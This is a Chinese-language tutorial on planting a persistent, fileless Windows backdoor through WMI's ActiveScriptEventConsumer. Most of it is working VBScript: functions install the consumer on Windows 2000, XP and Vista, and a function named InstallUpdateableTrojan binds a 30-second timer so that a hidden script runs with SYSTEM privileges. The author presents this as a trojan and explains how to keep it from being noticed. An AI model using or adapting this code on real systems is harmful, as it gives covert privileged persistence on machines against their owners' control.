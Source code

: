 &emsp;&emsp;这个“三无”后门的核心就是WMI中的永久事件消费者ActiveScriptEventConsumer（以下简称ASEC）。WMI中有许多这 类的事件消费者，简单的来说，当与其绑定的事件到达时，消费者就会被触发执行预先定义好的功能。例如可以用来执行二进制程序的 CommandLineEventConsumer等等   
&emsp;&emsp;ASEC是WMI中的一个标准永久事件消费者。它的作用是当与其绑定的一个事件到达时，可以执行一段预先设定好的JS/VBS脚本  
&emsp;&emsp;先来看一下其原型： 
```vbs
class ActiveScriptEventConsumer : __EventConsumer 
{ 
uint8 CreatorSID = {1,1,0,0,0,0,0,5,18,0,0,0}; //事件消费者的CreatorSID 只读 
uint32 KillTimeout = 0; //脚本允许被执行的时间 默认为0，脚本不会被终止 
string MachineName; 
uint32 MaximumQueueSize; 
string Name; //自定义的事件消费者的名字。 
string ScriptingEngine; //用于解释脚本的脚本引擎。VBScript或者JScript 
string ScriptFileName; //如果你想从一个文件里面读取想执行的脚本的话，写上这里吧。 
string ScriptText; //用于执行的脚本代码。与ScriptFileName不共戴天。有你没我，有我没你 
}; 
```
&emsp;&emsp;ASEC的安装   
&emsp;&emsp;对于XP以后的系统来说，ASEC已经默认安装到了root\subscription名称空间。我们可以直接调用。2000自带有ASEC的 mof文件，但是没有默认安装，需要我们自己安装。另外由于大部分的事件都是在root\cimv2里产生，所以如果你想直接捕获一些系统事件作为触发器 的话，还得在其他的名称空间中安装ASEC。来看一下在2000/XP/Vista下安装ASEC到root\cimv2的代码。   
```vbs
Function InstallASECForWin2K ’安装ASEC For Windows 2000’ 
Dim ASECPath2K 
ASECPath2K = XShell.Expandenvironmentstrings("%windir%\system32\wbem\") 
Set MofFile = FSO.opentextfile(ASECPath2K&"scrcons.mof",1,False) 
MofContent = MofFile.Readall 
MofFile.Close 
MofContent = Replace(MofContent,"\\Default","\\cimv2",1,1) ‘替换默认的名称空间 
TempMofFile=ASECPath2K&"Temp.mof" 
Set TempMof=FSO.CreateTextFile(TempMofFile,False,True) 
TempMof.Write MofContent 
TempMof.close 
XShell.run "mofcomp.exe -N:root\cimv2 "&TempMofFile,0,TRUE 
FSO.DeleteFile(TempMofFile) 
ASECStatus = "Ready" 
’Wscript.Echo "ASECForWin2K Install OK!" 
End Function 
Function InstallASECForWinXP ’安装ASEC For Windows XP’ 
Dim ASECPathXP 
XPASECPath = XShell.Expandenvironmentstrings("%windir%\system32\wbem\") 
XShell.run "mofcomp.exe -N:root\cimv2 "&XPASECPath&"scrcons.mof",0,TRUE ’直接运行安装即可 
ASECStatus = "Ready" 
’Wscript.Echo "ASECForWinXP Install OK!" 
End Function 
Function InstallASECForVista ’安装ASEC For Windows Vista’ 
Dim ASECPath2K 
ASECPath2K = XShell.Expandenvironmentstrings("%windir%\system32\wbem\") 
Set f = FSO.GetFile(ASECPath2K&"scrcons.mof") 
Set MofFile = f.OpenAsTextStream(1,-2) 
’Set MofFile = FSO.opentextfile(ASECPath2K&"scrcons.mof",1,False) 
MofContent = MofFile.Readall 
MofFile.Close 
MofContent = Replace(MofContent,"#pragma autorecover","",1,1) //需要删除autorecover，否则安装出错
TempMofFile=ASECPath2K&"Temp.mof" 
Set TempMof=FSO.CreateTextFile(TempMofFile,False,True) 
TempMof.Write MofContent 
TempMof.close 
XShell.run "mofcomp.exe -N:root\cimv2 "&TempMofFile,0,TRUE 
FSO.DeleteFile(TempMofFile) 
ASECStatus = "Ready" 
’Wscript.Echo "ASECForWinVista Install OK!" 
End Function 
```
&emsp;&emsp;再来看一个绑定事件和ASEC的实例。  
```vbs
Function InstallUpdateableTrojan 
WMILink="winmgmts:\\.\root\cimv2:" //ASEC所在的名称空间 
TrojanName="ScriptKids" //自定义的消费者名字，也就是你的后门的名字 
TrojanRunTimer=30000 //自定义的脚本运行间隔 
strtxt="" //自定义的脚本内容。为了隐蔽我们就不用scriptfilename了。会被Windows编码后写入CIM存储库 
’配置事件消费者’ 
set Asec=getobject(WMILink&"ActiveScriptEventConsumer").spawninstance_ 
Asec.name=TrojanName&"_consumer" 
Asec.scriptingengine="vbscript" 
Asec.scripttext=strtxt 
set Asecpath=Asec.put_ 
’配置计时器’ 
set WMITimer=getobject(WMILink&"__IntervalTimerInstruction").spawninstance_ 
WMITimer.timerid=TrojanName&"_WMITimer" 
WMITimer.intervalbetweenevents=TrojanRunTimer 
WMITimer.skipifpassed=false 
WMITimer.put_ 
’配置事件过滤器’ 
set EventFilter=getobject(WMILink&"__EventFilter").spawninstance_ 
EventFilter.name=TrojanName&"_filter" 
EventFilter.query="select * from __timerevent where timerid="""&TrojanName&"_WMITimer""" 
EventFilter.querylanguage="wql" 
set FilterPath=EventFilter.put_ 
’绑定消费者和过滤器’ 
set Binds=getobject(WMILink&"__FilterToConsumerBinding").spawninstance_ 
Binds.consumer=Asecpath.path 
Binds.filter=FilterPath.path 
Binds.put_ 
End Function 
```
&emsp;&emsp;以上代码的含义就是当我们自定义的一个计时器事件发生时，会被我们所配置的事件过滤器捕获到，并触发与过滤器绑定的消费者，也就是我们自定义了脚本的ASEC。达到我们每隔30秒执行一次我们自定义的脚本的目的。很简单吧：）  
&emsp;&emsp;最后要说的是，我们自定义的脚本运行时，是由系统自带的scrcons.exe作为脚本宿主进行解析，而scrcons.exe是由系统以 SYSTEM权限启动的，也就是说，我们的脚本是以SYSTEM权限执行，并且其所创建的任意进程都会继承SYSTEM权限。美中不足的就是，每当脚本执 行时，会平白多出一个scrcons.exe的系统进程。这也是这个脚本后门目前最容易被发现的一个弱点。不过，当这个脚本24小时才运行一次时，有多少 人会注意到呢？